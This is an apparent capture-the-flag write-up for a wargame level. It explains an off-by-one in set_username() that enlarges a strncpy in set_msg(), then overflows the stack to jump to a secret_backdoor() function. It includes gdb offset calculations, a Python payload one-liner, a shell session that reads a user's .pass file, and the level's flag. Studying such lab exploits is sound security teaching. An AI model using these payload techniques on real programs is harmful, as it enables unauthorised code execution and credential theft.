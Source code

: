 # One byte can cause your end

## Program summary
In this level we are provided with a program which takes as input a username **`set_username()`** and a message **`set_msg()`**, which will be transferred to a certain "@Unix-Dude". It's a fictitious messaging system. We also notice a **`secret_backdoor()`** function which allows you to execute a command passed as input with system.

## Vulnerability
The vulnerability at this level resides in **`set_username()`** and is exploitable in **`set_msg()`**.  Let me explain, these two functions will receive the same start of segment of a buffer defined in **`handle_msg()`**, to write the information related to their function. Except that in **`set_msg()`** the length limit of **`strncpy()`** is accessible via **`set_username()`** since it copies one byte too many.

Therefore if the length is set correctly, we can attack with a buffer overflow in the **`handle_msg()`** stack frame to change the execution course towards the backdoor.

## Attack design

Two attacks are possible in fact, the first would simply be to use gdb to hijack the instruction register on **`secret_backdoor()`**.

The second is the buffer overflow attack. To do this we must find the sufficient length to reach the location of the saved RIP. Let's look at the buffer address and the RIP location to calculate the offset.

```
Breakpoint 1, 0x000055555555492b in handle_msg ()
(gdb) i f
Stack level 0, frame at 0x7fffffffe4c0:
 rip = 0x55555555492b in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe4d0
 Arglist at 0x7fffffffe4b0, args: 
 Locals at 0x7fffffffe4b0, Previous frame's sp is 0x7fffffffe4c0
 Saved registers:
  rbp at 0x7fffffffe4b0, rip at 0x7fffffffe4b8
(gdb) p $rbp-0xc0
$1 = (void *) 0x7fffffffe3f0
```
***RIP Location*** : 0x7fffffffe4b8  
***Buffer start*** : 0x7fffffffe3f0  
0x7fffffffe4b8 - 0x7fffffffe3f0 = 0xC8 = OFFSET is **200**  

Let's put the *40th* excess copy byte at its maximum simply with **`\xff = 255`** in **`set_username()`**. Now we can copy 255 bytes with **`strncpy()`** since **`buffer start + 0xb4`** points exactly to **`\xff`**, however we will only use 208 bytes (*OFFSET + 64 bits addr*).

```py
python -c 'print "*"*40 + "\xff" + "\n" + "B"*200 + "\x8c\x48\x55\x55\x55\x55\x00" + "\n" + "/bin/sh"' > /tmp/boom
```

```
cat /tmp/boom - | ./level09
...
whoami
end
cat /home/users/end/.pass    
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

> Flag : `j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`

